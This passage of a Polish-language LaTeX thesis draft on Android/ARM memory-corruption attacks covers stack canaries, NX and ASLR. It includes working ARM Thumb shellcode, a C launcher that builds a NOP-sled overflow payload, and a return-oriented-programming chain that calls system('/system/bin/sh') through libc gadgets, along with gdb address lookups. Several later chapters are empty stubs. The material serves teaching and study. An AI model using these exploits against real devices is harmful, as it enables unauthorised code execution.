jest sprawdzenie, czy wcześniej zapisana wartość nie została zmodyfikowana. W przypadku wykrycia przepełnienia buforu, działanie programu kończy się 
błędem.

W kompilatorze GCC zabezpieczenie to nazywane jest \verb+ProPolice+. Do jego włączenia lub wyłączenia służą flagi kompilatora: \verb+--stack-protector+
i \verb+--no-stack-protector+. W zestawie narzędzi Android NDK zostało dodane w wersji 1.5 i domyślnie jest włączone. Począwszy od tej wersji, także 
wszystkie źródła bibliotek systemowych są skompilowane z włączoną ochroną. 

Kod assemblera funkcji \verb+vulnerable+ z przykładu \ref{print:overflow} z włączonym zabezpieczeniem \verb+ProPolice+ wygląda został umieszczony
na wydruku \ref{print:vulnerable-propolice}. W instrukcjach 2 -- 6 pobierana jest wartość ciasteczka i umieszczana w odpowiednim miejscu na stosie. 
Natomiast instrukcje 11 -- 15 sprawdzają czy wartość ta nie została zmieniona.

Należy zauważyć, że powyższa metoda wykrywania przepełnienia buforów chroni jedynie dane kontrolne programu. W dalszym ciągu możliwe jest 
zmodyfikowanie innych zmiennych lokalnych procedury, co może doprowadzić do niezamierzonego zachowania programu.

\section{Wstrzyknięcie kodu}\label{section:injection}

\begin{figure}[b]
\centering

\begin{tikzpicture}[node distance=0mm ]
\node[punkt] (nop) {NOP};
\node[punkt, right=of nop] (shell) {shellcode};
\node[punkt, right=of shell] (ret) {adres powrotu}
  edge[pil, bend right=120] (nop.north west);

\node[below=of nop] (stackdummy) {\phantom{adresa}};
\node[below=of ret] (stack) {stos}
  edge[pil] (stackdummy.west);
\node[below=of stack] (adresydummy) {\phantom{adry}};
\node[below=of stackdummy] (adresy) {adresy}
  edge[pil] (adresydummy.east);
\end{tikzpicture}
\caption{Stos}
\label{figure:stackoverflow}
\end{figure}


W przykładzie z poprzedniego punktu został zaprezentowany jeden ze sposobów na wykorzystanie błędu programistycznego w celu zmiany sterowania programu.
Uruchomienie programu z odpowiednio spreparowanym argumentem pozwoliło wywołać dowolną procedurę programu. Zazwyczaj jest to jednak niewystarczające, 
aby atakujący mógł osiągnąć zamierzone cele. W punkcie tym zostanie zaprezentowany atak, w trakcie którego przekazywany jest kod maszynowy zgodny 
z architekturą procesora danego urządzenia. Takie fragmenty kodu maszynowego nazywane są \textit{shellcodem}. Tworzenie tego typu wstawek zostanie 
omówione w rozdziale \ref{chapter:shellcode}. Aby przekazany kod został wykonany przez program potrzebne jest odpowiednie ustawienie wartości
licznika instrukcji na adres pamięci, w którym umieszczony jest shellcode. Sposób, w jaki zostanie to zrobione, jest zależny od błędu w programie.
Poniżej zostanie przedstawione wstrzyknięcie kodu z wykorzystaniem nadpisania adresu powrotu z podprogramu, co zostało opisane w poprzednim
punkcie. Można jednak także wykorzystać w tym celu dowolny inny błąd w programie. 

\begin{print}[t]
\begin{verbatim}
 1:  char *sh[2] = { "/system/bin/ls", NULL };
 2:  execve(sh[0], sh, NULL);
\end{verbatim}
\caption{Kod w języku C}
\label{print:c-shellcode}
\end{print}


Program z przykładu \ref{print:overflow} można uruchomić z argumentem, w którym pierwsze 108 bajtów jest kodem maszynowym, który zostanie wykonany w 
trakcie ataku, natomiast adres powrotu zostanie nadpisany w taki sposób, aby wskazywał początek obszaru pamięci na stosie zaalokowanego na bufor 
\verb+buffer+. Ponieważ wstrzykiwany kod maszynowy ma mniejszy rozmiar, należy go poprzedzić odpowiednią liczbą instrukcji NOP (ang. 
\textit{no operation}). Po wykonaniu linii 11 programu, stos będzie wypełniony tak, jak na rysunku \ref{figure:stackoverflow}.

Na wydruku \ref{print:asm-shellcode} został przedstawiony kod maszynowy (\textit{shellcode} wraz z odpowiednimi instrukcjami assemblera. Realizuje on 
instrukcje w języku C z wydruku \ref{print:c-shellcode}. Kod maszynowy został stworzony w taki sposób, aby żaden jego bajt nie był równy zero.
Dzięki temu może być przekazany jako napis poprzez argument programu. 

Aby program zaczął wykonywać dostarczony kod, adres powrotu należy nadpisać w taki sposób, aby wskazywał jedną z początkowych wartości bufora, w 
którym zostanie umieszczony shellcode. Adres ten można uzyskać uruchamiając program pod kontrolą debuggera \verb+gdb+. Ponieważ jest on przekazywany 
jako pierwszy argument procedury \verb+strcpy+ w linii 11 programu \ref{print:overflow}, należy odczytać wartość rejestru R0 w trakcie wykonania 
procedury \verb+vulnerable+. Zostało to zaprezentowane na wydruku \ref{print:getsp}. Położenie stosu w kolejnych uruchomieniach programu jest takie 
samo, ponieważ została wyłączona randomizacja przestrzeni adresowej procesu. Zostanie to opisane w punkcie \ref{section:aslr}.

\SaveVerb{buffer}|buffer|
\begin{print}
\begin{verbatim}
(gdb) disassemble 
Dump of assembler code for function vulnerable:
   0x000084c4 <+0>:	push	{lr}
   0x000084c6 <+2>:	sub	sp, #108	; 0x6c
   0x000084c8 <+4>:	adds	r1, r0, #0
   0x000084ca <+6>:	add	r0, sp, #4
=> 0x000084cc <+8>:	blx	0x83d8
   0x000084d0 <+12>:	add	sp, #108	; 0x6c
   0x000084d2 <+14>:	pop	{pc}
(gdb) print/x $sp
$3 = 0xbefffa78
(gdb) print/x $r0
$4 = 0xbefffa7c
\end{verbatim}
\caption{Odczytanie adresu bufora \protect\UseVerb{buffer}.}
\label{print:getsp}
\end{print}



\begin{print}[H]
\begin{verbatim}
 1: #include <unistd.h>
 2: #include <stdlib.h>
 3: 
 4: char shellcode[] = { 
 5:  '\x5b', '\x40',     // eor r3, r3
 6:  '\xff', '\x27',     // movs r7, #255
 7:  '\x0c', '\xa1',     // add r1, pc, #48
 8:  '\x0b', '\x60',     // str r3, [r1]
 9:  '\x04', '\xa1',     // add  r1, pc, #16
10:  '\x0a', '\x68',     // ldr  r2, [r1, #0]
11:  '\xba', '\x43',     // bics r2, r7
12:  '\x0a', '\x60',     // str  r2, [r1, #0]
13:  '\x03', '\xa1',     // add r1, pc, #12
14:  '\x4b', '\x60',     // str r3, [r1, #4]
15:  '\x04', '\xa0',     // add r0, pc, #16
16:  '\x08', '\x60',     // str r0, [r1]
17:  '\x1a', '\x1c',     // mov r2, r3
18:  '\x0b', '\x27',     // mov r7, #11
19:  '\xcc', '\xdf',     // svc 0xcc
20:  '\xcc', '\xcc',
21:  '\xcc', '\xcc', '\xcc', '\xcc',
22:  '\xcc', '\xcc', '\xcc', '\xcc',           
23:  '/', '/', '/', 's', 
24:  'y', 's', 't', 'e', 
25:  'm', '/', 'b', 'i', 
26:  'n', '/', 'l', 's',
27:  '\xcc', '\xcc', '\xcc', '\xcc'
28: };
29:
30: char nop[] = { '\xc0', '\x46' };
31:  
30: void main(int argc, char *argv[]) {
31:   unsigned long size = strtoul(argv[1], NULL, 10);
32:   unsigned long ret = strtoul(argv[2], NULL, 16);
33:   char *payload = malloc(size + 4);
34:   unsigned long i = 0;
35:   while (i < size - sizeof(shellcode) - sizeof(ret)) {
36:     memcpy(payload + i, nop, sizeof(nop));
37:     i += sizeof(nop);
38:   }
39:   memcpy(payload + i, shellcode, sizeof(shellcode));
30:   i += sizeof(shellcode);
31:   *(unsigned long *)(payload + i) = ret;
32:   *(payload + size) = '\x00';
33:   execl("./buffer-overflow", "./buffer-overflow", payload, NULL);
34: }
\end{verbatim}
\caption{Kod maszynowy i assemblerowy shellcode'u}
\label{print:asm-shellcode}
\end{print}


\subsection{Bit NX}

W celu ochrony przed tego typu atakami w wersji 6 architektury ARM wprowadzona została technologia bitu NX (ang. \textit{No Execute}). Umożliwia ona 
systemowi operacyjnemu oznaczyć wybrane strony pamięci jako niewykonywalne. Gdy bit NX dla danej strony jest ustawiony, próba wykonania zawartości tej 
strony jako kodu kończy się wygenerowaniem wyjątku, zgłaszanego systemowi operacyjnemu, co powoduje przerwanie wykonywania programu. Bit NX powinien 
być ustawiony dla wszystkich stron procesu, z wyjątkiem programu i bibliotek oraz świadomie dozwolonych przez program wyjątków.

Technologia ,,NX bit'' jest wspierana przez system Android od wersji 2.3. 

\section{Return-oriented programming}

\textit{Return-oriented programming} (ROP) jest to technika ataku, która pozwala na zmianę zachowania programu na dowolną, zamierzoną przez atakującego.
W trakcie ataku z wykorzystaniem tej techniki, program wykonuje serię starannie dobranych drobnych fragmentów kodu, tzw. gadżetów (ang. \textit{gadget}, 
\textit{chunk}), dostępnych w przestrzeni adresowej procesu. Wykorzystywane są obszary pamięci w których załadowany jest kod programu oraz bibliotek 
dynamicznych. Obszary te są oznaczone jako do wykonywania, co pozwala ominąć zabezpieczenie bitu NX. Najczęściej jako baza gadżetów wykorzystywana
jest biblioteka dynamiczna \verb+libc.so+ ponieważ jest używana w większości programów oraz ze względu na fakt, że zawiera dużą liczbę gadżetów.
Inną dogodną do wykorzystania biblioteką jest \verb+libwebcore.so+, która jest używana przez programy renderujące treści HTML.

W początkowych wersjach ataków wykorzystujących technikę ROP, ciąg adresów kolejnych gadżetów był umieszczany na stosie, natomiast gadżety były 
dobierane w taki sposób, aby każdy z nich kończył się instrukcją powrotu, która pobiera wartość licznika instrukcji ze stosu. W architekturze x86 jest 
to instrukcja \verb+ret+ (return), co jest genezą nazwy tej techniki. Odpowiednikiem tej instrukcji w architekturze ARM jest \verb+pop {pc}+.

Możliwe jest jednak przeprowadzenie ataku z wykorzystaniem techniki ROP, w którym dane sterujące wykonaniem programu nie są umieszczone na stosie.
W tym celu używany jest zestaw gadżetów, w których ostatnią instrukcją jest instrukcja skoku pośredniego (BX, BLX). Parametrem takiej instrukcji
jest inny rejestr ogólnego przeznaczenia, a skok jest wykonywany do adresu jaki znajduje się w przekazanym rejestrze. Wartość tego rejestru
może być wcześniej pobierana z dowolnego obszaru pamięci procesu, w którym atakujący zapisał dane, np. ze sterty. Taki wariant ataku typu ROP na 
architekturze ARM został opisany w pracy \cite{noreturn}.

Ręczne wyszukiwanie dogodnych fragmentów kodu, które mogą zostać użyte jako gadżet oraz składanie ich w sekwencję, tak aby uzyskać pożądane zachowanie
programu jest bardzo czasochłonne. Dostępne są jednak narzędzia, które pozwalają ten proces zautomatyzować. W pracy \cite{kompilator}, został
opisany kompilator ROP dla architektury x86. Natomiast w \cite{roparm} przedstawiono m.in. algorytmy służące do automatycznego wyszukiwania i składania
gadżetów dla architektury ARM.

Poniżej znajduje się przykład ataku wykorzystującego technikę ROP. Do przeprowadzenia ataku został wykorzystany błąd w programie z 
wydruku \ref{print:overflow}. Celem ataku jest wykonanie przez program procedury \verb+system("/system/bin/sh")+ z biblioteki standardowej. 
Baza gadżetów stanowi biblioteka \verb+lib.c+, która jest dynamicznie ładowana w trakcie wykonania programu.

\begin{print}
\begin{verbatim}
   0x189d8 <getcwd+12>:	mov	r0, r4
   0x189da <getcwd+14>:	pop	{r4, pc}
\end{verbatim}
\label{print:getcwd-chunk}
\caption{Gadżet}
\end{print}

Skonstruowania poniższego, przykładowego ataku zostało poprzedzone wykonaniem następnujących czynności przygotowujących:
\begin{itemize}
\item Uzyskanie adresu pamięci, pod którym jest załadowana biblioteka \verb+libc.so+. Najprościej można to zrobić przy użyciu narzędzia \verb+nm+. 
Niestety pakiet Android NDK nie zawiera tego programu. Innym sposobem na otrzymanie adresów zmapowanych obszarów pamięci procesu jest przeczytanie 
pliku \verb+/proc/<pid>/maps+. Dla programu, na którym zostanie przeprowadzony atak, jest on równy \verb+0x40002000+.
\item Ustalenie adresu procedury \verb+system+ w bibliotece \verb+libc.so+. Można w tym celu użyć narzędzia \verb+gdb+:
\begin{verbatim}
(gdb) x/x system
0x1a3a4 <system>:	0xb5704b2b
\end{verbatim}
Wartość \verb+0x1a3a4+ należy zwiększyć o offset, pod którym załadowana jest biblioteka \verb+libc.so+ w przestrzeni adresowej procesu.
Ponieważ biblioteka \verb+libc.so+ jest skompilowana w trybie Thumb, do licznika instrukcji musi być zapisana wartość powiększona o 1.
\item Wyszukanie w bibliotece \verb+libc.so+ dogodnych gadżetów. Kryteria jakie powinny spełnić to: 
\begin{itemize}
\item ostatnia instrukcja musi zapisywać przekazane wartości do licznika instrukcji,
\item pozwolą na zapisanie do rejestru R0 adresu napisu \verb|"/system/bin/sh"|, który jest przekazywany jako argument procedury \verb+system+.
\end{itemize}
Kryteria te spełnia gadżet z wydruku \ref{print:getcwd-chunk}. Są to ostatnie dwie instrukcje procedury \verb+getcdw+.
\item Wyszukanie adresu napisu \verb+"/system/bin/sh"+. Napis ten także znajduje się w bibliotece \verb+libc.so+ i można go wyszukać przy użyciu 
narzędzi \verb+grep+ i \verb+objdump+.
\begin{verbatim}
(gdb) x/s 0x003ad3a
0x3ad3a:         "/system/bin/sh"
\end{verbatim} 
\end{itemize}

\textbf{TODO:} Opisać atak, który jest wykonywany przez program na wydruku \ref{print:rop}
%Kod źródłowy programu, który uruchamia

\begin{print}
\begin{verbatim}
 1: #include <unistd.h>
 2: #include <stdlib.h>
 3:
 4: #define OFFSET 0x40002000
 5:
 6: unsigned long rop[] = { 
 7:   OFFSET + 0x000189db,      // pop	{r4, pc}
 8:   OFFSET + 0x00031d3a,      // "/system/bin/sh"
 9:   OFFSET + 0x000189d9,      // mov	r0, r4
10:                             // pop  {r4, pc}
11:   0xcccccccc,
12:   OFFSET + 0x0001a3a5,      // system(const char *)
13:   0
14: };
15: 
16: void main(int argc, char *argv[]) {
17:   unsigned long size = strtoul(argv[1], NULL, 10);
18:   char *payload = malloc(size + sizeof(rop));
19:   memset(payload, 'X', size);
20:   memcpy(payload + size, rop, sizeof(rop));
21:   execl("./buffer-overflow", "./buffer-overflow", payload, NULL);
21: }
\end{verbatim}
\caption{Program przeprowadzający atak z wykorzystaniem \textit{return-oriented programming}}
\label{print:rop}
\end{print}

\subsection{Address space layout randomization (ASLR)}\label{section:aslr}

% https://blog.duosecurity.com/2012/02/a-look-at-aslr-in-android-ice-cream-sandwich-4-0/
% https://blog.duosecurity.com/2012/07/exploit-mitigations-in-android-jelly-bean-4-1/
% https://www.kernel.org/doc/Documentation/sysctl/kernel.txt (randomize-va-space)

\chapter{Tworzenie shellcode'u}\label{chapter:shellcode}


\chapter{Przykłady ataków i ich implementacja w narzędziu Metasploit}

% ogolnie opisać matesploita, 
% materiały: 
%  praca dla samsunga
%  msf_user_guide.pdf

\section{CVE-2010-1119}

\section{CVE-2010-1807}

\chapter{Podsumowanie}

\begin{thebibliography}{99}
\addcontentsline{toc}{chapter}{Bibliografia}

\bibitem[1]{decomp} Anthony Desnos, Geoffroy Gueguen \textit{Android: From Reversing to Decompilation}, Black Hat, Abu Dhabi, 2011 \

\bibitem[2]{privescal} S. Höbarth, R. Mayrhofer, \textit{A framework for on-device privilege escalation exploit execution on android}, IWSSI/SPMU 2011: 
3rd International Workshop on Security and Privacy in Spontaneous Interaction and Mobile Phone Use, colocated with Pervasive 2011, czerwiec 2011. 
dostępne na \url{http://www.medien.ifi.lmu.de/iwssi2011/} \

\bibitem[3]{armguide} Gaurav Kumar, Aditya Gupta, \textit{A Short Guide on ARM Exploitation}, 
\url{http://www.exploit-db.com/wp-content/themes/exploit/docs/24493.pdf} \

\bibitem[4]{alphanum} Yves Younan, Pieter Philippaerts, \textit{Alphanumeric RISC ARM shellcode}, Phrack, 66, czerwiec 2009 \

\bibitem[5]{anatomy} Joshua Hulse, \textit{Buffer Overflows: Anatomy of an Exploit}, 
\url{http://packetstormsecurity.com/files/108549/Buffer-Overflows-Anatomy-Of-An-Exploit.html} \

\bibitem[6]{explarm} Emanuele Acri, \textit{Exploiting Arm Linux Systems}, 
\url{http://packetstormsecurity.com/files/98376/Exploiting-ARM-Linux-Systems.html} \

\bibitem[7]{fuzzphone} Collin Mulliner, Charlie Miller, \textit{Fuzzing the Phone in your Phone}, Black Hat USA, 2009 \

\bibitem[8]{howtoshell} Jonathan Salwan, \textit{How to Create a Shellcode on ARM Architecture}, \url{http://www.exploit-db.com/papers/15652/} \

\bibitem[9]{telephony} Dustin ,,I)ruid'' Trammel, \textit{Metasploit Framework Telephony}, Black Hat USA, 2009 \

\bibitem[10]{nonexec} Itzhak Avraham, \textit{Non-Executable Stack ARM Exploitation}, Black Hat DC, 2011 \

\bibitem[11]{smashing} jip@soldierx.com, \textit{Stack Smashing On A Modern Linux System}, 
\url{http://www.soldierx.com/tutorials/Stack-Smashing-Modern-Linux-System} \

\bibitem[12]{armman} ARM Ltd. \textit{Arm architecture reference manual.} \

\bibitem[13]{armcall} ARM Ltd. \textit{Procedure call standard for the arm architecture.} \

\bibitem[14]{metasploit} Metasploit framework, \url{http://www.metasploit.com} \

\bibitem[15]{android} Android project, \url{http://developer.android.com} \

\bibitem[16]{webkit} The WebKit Open Source Project, \url{http://www.webkit.org} \

\bibitem[17]{noreturn} Lucas Davi, Alexandra Dmitrienko, Ahmad-Reza Sadeghi, Marcel Winandy, \textit{Return-Oriented Programming without Returns on 
ARM}, 2010 \

\bibitem[18]{roparm} T. Kornau. \textit{Return oriented programming for the ARM architecture. Master’s thesis.}, 2010 \

\bibitem[19]{surgically} Giampaolo Fresi Roglia, Lorenzo Martignoni, Roberto Paleari, Danilo Bruschi. \textit{Surgically returning to randomized 
lib(c).} Computer Security Applications Conference, 2009 \

\bibitem[20]{kompilator} Paweł Janic, \textit{Kompilator ROP}, 2012 \



\end{thebibliography}

\end{document}

